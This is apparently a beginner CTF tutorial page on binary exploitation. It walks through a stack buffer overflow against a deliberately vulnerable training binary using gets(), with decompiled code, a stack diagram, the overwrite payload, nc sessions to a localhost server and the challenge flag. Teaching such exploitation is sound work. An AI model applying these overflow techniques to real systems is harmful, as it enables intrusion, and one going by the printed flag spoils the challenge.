 # Binary Exploitation / Pwn
Binary Exploitation of *Pwn* are problems on which the contestants are challenged to *hack* a program. One main thing to notice is that in this type of problems, the contestants are  given a connection to the remote challenge server, so **the flag is not on the program itself** but somewhere in the remote server. The usual way of solving binary exploitation problems is to hack and debug the program on your local machine first (may involve writing a fake flag), writing a script to do the same thing to the remote server, then executing the script. Pwn problems are mostly binary (ELF/Compiled C) program exploitation. Typical vulnerabilities in these programs include buffer overflow, format string attack, integer overflow, heap exploitation and more.

## Tools
The tools you might need to solve Pwn problems:
- Debugger ([gdb](http://www.gdbtutorial.com/tutorial/how-install-gdb), [gdb-peda](https://github.com/longld/peda)) - to RE compiled programs.
- Disassembler ([IDA](https://www.hex-rays.com/products/ida/), [Ghidra](https://ghidra-sre.org/), etc.) - to RE compiled programs.
- Scripting tool ([pwntools](https://github.com/Gallopsled/pwntools)) - to automate input to the program.
- etc.

## Example Problem
You can find the file [here](./example/README.md).

Follow the instruction to setup the remote server.

Notice that in the **real** CTF, the contestants are only given the [binary](./chall/bof0) and the connection to the remote server. This binary program is the exact same program running on the server.

*If you want to run the challenge with docker you may need to install [docker](https://www.docker.com/) and [docker-compose](https://docs.docker.com/compose/install/) on your machine.*


## How to Solve
### Observation

First off, try connecting to the *remote* server:
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
*You can close the connection with **Ctrl-C***

Try the program locally:
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
The program asks for an input, if our input changes the local variable from `'stif'` to `'h3h3'`, we get the flag.

To understand the program better, let's open it up in IDA (or gdb if you are hardcore).

Launch IDA, load the program, and disassemble the main function (F5).
```
  ...
  setbuf(_bss_start, 0LL);
  puts("hi! change the string variable to h3h3 and you'll get your flag!");
  vuln();
  exit(0);
}
```

Seems that the main function calls the `vuln()` function, let's disassemble that function.
```
  ...
  char v1; // [rsp+8h] [rbp-18h]
  char s1[8]; // [rsp+10h] [rbp-10h]  <- allocation
  ...

  ...
  *(_QWORD *)s1 = 0x66697473LL;       <- s1 = 'stif' (or 0x66697473LL in hex)
  printf("your input: ");
  gets(&v1);                          <- our input!!!
  printf("string is: %s\n", s1);
  if ( !strcmp(s1, "h3h3") )          <- compare s1 to h3h3
  {
    puts("congrats! here's your flag");
    readFlag();                       <- this function reads the flag
  }
  ...
}
```

From that disassembled code, we know that the program asks for our input **USING `gets()`**, store it in `v1`, and then compares `s1` (which is not our input) to `'h3h3'`.

At first this may seem impossible, how can we change a pre-initialized variable given our control to another variable. The key is on how the program asks for our input, using `gets()`. The function `gets()` is an unsafe function that **DOESN'T LIMIT THE CHARACTER ENTERED**, this means that we can bypass the initially allocated space for our input. You can see how `v1` and `s1` are allocated on the header of the disassembled function in IDA.

Here is an illustration on how the variables `v1` and `s1` are allocated (in reference to `rbp`). Keep in mind that in C, 1 character = 1 byte.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
|   |   |   |   |   |   |   |   | s | t | i | f |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```

So, to change `s1` to `'h3h3'`, we need to input any 8 characters (from rbp-0x18 to rbp-0x11) plus `'h3h3'` itself. The following illustration pictures the input `'GANTENGZh3h3'`.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| G | A | N | T | E | N | G | Z | h | 3 | h | 3 |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```
### Solve
Now try inputing the payload to the program locally.
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
Segmentation fault (core dumped)
```

You will not get the flag this way because the program is being run locally in your machine, hence the `SEGFAULT`.
Try connecting to the server and input the payload.
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
CTFGUIDE{3z_b0o00ooo0ff}
```

---

## External Resources
*TBD*
